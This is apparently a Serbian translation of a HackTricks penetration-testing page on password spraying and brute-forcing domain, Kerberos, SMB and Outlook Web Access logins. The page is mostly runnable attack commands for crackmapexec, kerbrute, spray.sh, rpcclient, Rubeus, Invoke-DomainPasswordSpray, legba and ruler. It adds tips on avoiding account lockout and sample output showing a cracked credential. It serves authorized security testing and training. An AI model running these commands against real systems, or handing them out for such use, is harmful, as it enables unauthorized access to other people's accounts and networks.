 # Password Spraying / Brute Force

{{#include ../../banners/hacktricks-training.md}}


## **Password Spraying**

Kada pronađete nekoliko **validnih korisničkih imena**, možete isprobati najviše **uobičajene lozinke** (imajte na umu politiku lozinki okruženja) sa svakim od otkrivenih korisnika.\
Po **defaultu**, **minimalna** **dužina** **lozinke** je **7**.

Liste uobičajenih korisničkih imena takođe mogu biti korisne: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Imajte na umu da **možete zaključati neke naloge ako pokušate nekoliko pogrešnih lozinki** (po defaultu više od 10).

### Get password policy

Ako imate neke korisničke akreditive ili shell kao domen korisnik, možete **dobiti politiku lozinki sa**:
```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
### Eksploatacija iz Linuxa (ili svih)

- Korišćenje **crackmapexec:**
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
- Koristeći [**kerbrute**](https://github.com/ropnop/kerbrute) (Go)
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
- [**spray**](https://github.com/Greenwolf/Spray) _**(možete naznačiti broj pokušaja kako biste izbegli zaključavanje):**_
```bash
spray.sh -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```
- Korišćenje [**kerbrute**](https://github.com/TarlogicSecurity/kerbrute) (python) - NIJE PREPORUČENO, PONEKAD NE RADI
```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```
- Sa `scanner/smb/smb_login` modulom **Metasploit**:

![](<../../images/image (745).png>)

- Koristeći **rpcclient**:
```bash
# https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/
for u in $(cat users.txt); do
rpcclient -U "$u%Welcome1" -c "getusername;quit" 10.10.10.10 | grep Authority;
done
```
#### Iz Windows-a

- Sa [Rubeus](https://github.com/Zer1t0/Rubeus) verzijom sa brute modulom:
```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
- Sa [**Invoke-DomainPasswordSpray**](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) (Može generisati korisnike iz domena po defaultu i dobiće pravila lozinki iz domena i ograničiti pokušaje u skladu s tim):
```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
- Sa [**Invoke-SprayEmptyPassword.ps1**](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1)
```
Invoke-SprayEmptyPassword
```
## Brute Force
```bash
legba kerberos --target 127.0.0.1 --username admin --password wordlists/passwords.txt --kerberos-realm example.org
```
## Outlook Web Access

Postoji više alata za p**assword spraying outlook**.

- Sa [MSF Owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)
- sa [MSF Owa_ews_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login/)
- Sa [Ruler](https://github.com/sensepost/ruler) (pouzdan!)
- Sa [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Powershell)
- Sa [MailSniper](https://github.com/dafthack/MailSniper) (Powershell)

Da biste koristili bilo koji od ovih alata, potrebna vam je lista korisnika i lozinka / mala lista lozinki za spray.
```bash
./ruler-linux64 --domain reel2.htb -k brute --users users.txt --passwords passwords.txt --delay 0 --verbose
[x] Failed: larsson:Summer2020
[x] Failed: cube0x0:Summer2020
[x] Failed: a.admin:Summer2020
[x] Failed: c.cube:Summer2020
[+] Success: s.svensson:Summer2020
```
## Google

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)

## Okta

- [https://github.com/ustayready/CredKing/blob/master/credking.py](https://github.com/ustayready/CredKing/blob/master/credking.py)
- [https://github.com/Rhynorater/Okta-Password-Sprayer](https://github.com/Rhynorater/Okta-Password-Sprayer)
- [https://github.com/knavesec/CredMaster](https://github.com/knavesec/CredMaster)

## References

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)
- [https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell](https://www.ired.team/offensive-security/initial-access/password-spraying-outlook-web-access-remote-shell)
- [www.blackhillsinfosec.com/?p=5296](https://www.blackhillsinfosec.com/?p=5296)
- [https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying](https://hunter2.gitbook.io/darthsidious/initial-access/password-spraying)


{{#include ../../banners/hacktricks-training.md}}
